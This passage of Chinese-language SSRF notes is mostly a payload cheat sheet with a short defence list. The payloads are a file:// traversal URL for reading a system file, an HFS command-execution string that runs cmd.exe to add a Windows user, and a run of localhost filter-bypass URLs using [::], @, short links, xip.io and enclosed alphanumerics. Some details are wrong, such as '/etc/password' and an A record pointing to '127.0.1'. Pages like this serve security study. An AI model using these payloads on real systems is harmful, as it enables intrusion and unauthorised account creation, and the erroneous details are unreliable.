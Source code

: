 如果以file协议去访问 结合目录穿越漏洞 可以得到敏感信息

如：?url=file:///../../../../../../etc/password

HFS的RCE

```
找到的版本只有2.3m 此时已不存在该RCE所以仅写出payload当思路http://127.0.0.1:8080/?search==%00{.exec|cmd.exe /c [Command-String].} http://127.0.0.1:8080/?search==%00{.exec|cmd.exe /c net user test1234 1234 /add.} 添加一个用户test1234
```

```
https://pan.baidu.com/s/1bp96ECJ    //CSRFTester https://www.t00ls.net/articles-41070.html   //SSRF漏洞文章
```

#### 防御

SSRF 统一错误信息，避免用户可以根据错误信息来判断远程服务器端口状态

1.限制请求的端口为 HTTP 常用的端口，比如 80,443,8080,8088 等

2.黑名单内网 IP。

3.禁用不需要的协议，仅仅允许 HTTP 和 HTTPS.

#### 绕过

###### 利用[::]绕过localhost

http://[::]:80/ >>> http://127.0.0.1

###### 利用@

http://example.com@127.0.0.1

###### 利用短地址

http://dwz.cn/11SMa >>> http://127.0.0.1

###### 利用特殊域名

http://127.0.0.1.xip.io/

http://www.owasp.org.127.0.0.1.xip.io/

###### 利用DNS解析

在域名上设置A记录，指向127.0.1

###### 利用Enclosed alphanumerics

List:

~~~
① ② ③ ④ ⑤ ⑥ ⑦ ⑧ ⑨ ⑩ ⑪ ⑫ ⑬ ⑭ ⑮ ⑯ ⑰ ⑱ ⑲ ⑳

⑴ ⑵ ⑶ ⑷ ⑸ ⑹ ⑺ ⑻ ⑼ ⑽ ⑾ ⑿ ⒀ ⒁ ⒂ ⒃ ⒄ ⒅ ⒆ ⒇

⒈ ⒉ ⒊ ⒋ ⒌ ⒍ ⒎ ⒏ ⒐ ⒑ ⒒ ⒓ ⒔ ⒕ ⒖ ⒗ ⒘ ⒙ ⒚ ⒛

⒜ ⒝ ⒞ ⒟ ⒠ ⒡ ⒢ ⒣ ⒤ ⒥ ⒦ ⒧ ⒨ ⒩ ⒪ ⒫ ⒬ ⒭ ⒮ ⒯ ⒰ ⒱ ⒲ ⒳ ⒴ ⒵

Ⓐ Ⓑ Ⓒ Ⓓ Ⓔ Ⓕ Ⓖ Ⓗ Ⓘ Ⓙ Ⓚ Ⓛ <img class="emoji" draggable="false" alt="

" src="https://s.w.org/images/core/emoji/72x72/24c2.png"> Ⓝ Ⓞ Ⓟ Ⓠ Ⓡ Ⓢ Ⓣ Ⓤ Ⓥ Ⓦ Ⓧ Ⓨ Ⓩ

ⓐ ⓑ ⓒ ⓓ ⓔ ⓕ ⓖ ⓗ ⓘ ⓙ ⓚ ⓛ ⓜ ⓝ ⓞ ⓟ ⓠ ⓡ ⓢ ⓣ ⓤ ⓥ ⓦ ⓧ ⓨ ⓩ

⓪ ⓫ ⓬ ⓭ ⓮ ⓯ ⓰ ⓱ ⓲ ⓳ ⓴

⓵ ⓶ ⓷ ⓸ ⓹ ⓺ ⓻ ⓼ ⓽ ⓾ ⓿
~~~